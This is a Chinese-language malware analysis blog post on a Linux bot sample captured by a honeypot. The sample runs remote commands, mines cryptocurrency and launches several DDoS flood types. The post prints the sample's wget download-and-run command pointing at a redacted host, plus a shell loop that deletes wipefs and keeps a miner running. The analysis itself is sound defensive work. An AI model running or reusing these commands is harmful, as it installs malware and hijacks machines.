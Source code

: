```yaml
---
layout: post
title: "MalwareMustDie lx样本分析"
---
```


# 0x00 背景

蜜罐上捕获到`wget`下载的样本，顺着网址一访问发现是用`HttpFileServer v2.3k 299`国产软件搭建的http服务，隐约感觉这种软件会有溢出漏洞，但也没时间去看页面就访问不了了。可以证明其下载的恶意软件出自国人之手，VT上也还没有相关的检测：

![][1]

<!-- more -->

该样本也是个被控端，接收主控端指令后可以`system`执行，该样本执行了如下命令：

```
sh -c cd /bin;rm -rf uninstall* ;wget http://xx.xx.xx.xx:6892/uninstall;chmod 777 uninstall;sh uninstall
```

下载运行的脚本文件主要是循环检测运行netwrite文件：

```
while true; 
do
	pkill -9 wipefs;
	rm -rf /bin/wipefs;
  count=`ps -ef |grep netwrite |grep -v "grep" |wc -l`
  if [ 0 == $count ]; then
     cd /bin;./netwrite; 
  fi
  sleep 60 
done
```

[该文件](https://www.virustotal.com/#/file/fdb42232c5c2fd226662b3571179f5dd573d6fa513cc5bd7c9c5a456315591aa/detection)也就是常见的挖挖比特币：

![][2]

样本逆向看了一下还是处于开发阶段，主要有接收指令执行命令和DOS功能。

# 0x01 连接主控端

样本先调用`if_nameindex`查看是否有网，然后调用空函数`CreateAutoRun`，所以应该还是开发阶段的程序。接下来又是很奇怪地使用两个函数来连接主控端并处理接收指令，对比了一下功能都是一样的，只是主控端的域名和端口不同，另外一个函数会是sleep 8分钟再去开线程连接主控端，域名端口如下：

```
o.xxxx.cn:21
www.xxxx.club:3065
```

从这域名注册信息也可以看出是很符合国内黑阔大佬的风格：

![][3]

一旦连接成功后就会自报主机的release版本和其他信息：

![][4]

# 0x02 接收指令

![][5]

## CmdShell

前4个字节比较为5后，后面的字符串便会传递给`system`函数执行。

## DealwithDDoS

其中主要有8个类型的DOS攻击，下面分析一下指令的结构和攻击的效果。

### SYN_Flood

![][6]

伪造的源端口每次会增加0x100。

![][7]

### UDP_Flood

![][8]

向目的udp端口发送1024字节的X字符。

![][9]

### ICMP_Flood

和UDP_Flood类似，发送的udp数据包data大小为2048字节。

### DNS_Flood

![][10]

会生成随机的Name和Type对目的DNS服务器进行查询。

![][11]

### GET_Flood

![][12]

需要手动添加`\x00`截断ip和url；在url的后面会添加5个随机生成的字节。

![][13]

### POST_Flood

和GET_Flood类似，只是改成了POST。

### FAST_Flood

GET_Flood without headers，只有Host Header。

### TCP_Flood

完全没有header的GET_Flood。

## StopFlag

在上述的Flood攻击中都会do-while地发送数据包，StopFlag就是用于停止攻击的指令：

![][14]

# 0x03 总结

样本主要是开启新线程去执行指令，代码量有些重复分析起来也比较简单。新年伊始，也希望能够赶上自动化分析的脚步，真正做到MalwareMustDie。


[1]: http://ojyzyrhpd.bkt.clouddn.com/20171231/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20171231/2.png
[3]: http://ojyzyrhpd.bkt.clouddn.com/20171231/3.png
[4]: http://ojyzyrhpd.bkt.clouddn.com/20171231/4.png
[5]: http://ojyzyrhpd.bkt.clouddn.com/20171231/5.png
[6]: http://ojyzyrhpd.bkt.clouddn.com/20171231/6.png
[7]: http://ojyzyrhpd.bkt.clouddn.com/20171231/7.png
[8]: http://ojyzyrhpd.bkt.clouddn.com/20171231/8.png
[9]: http://ojyzyrhpd.bkt.clouddn.com/20171231/9.png
[10]: http://ojyzyrhpd.bkt.clouddn.com/20171231/10.png
[11]: http://ojyzyrhpd.bkt.clouddn.com/20171231/11.png
[12]: http://ojyzyrhpd.bkt.clouddn.com/20171231/12.png
[13]: http://ojyzyrhpd.bkt.clouddn.com/20171231/13.png
[14]: http://ojyzyrhpd.bkt.clouddn.com/20171231/14.png
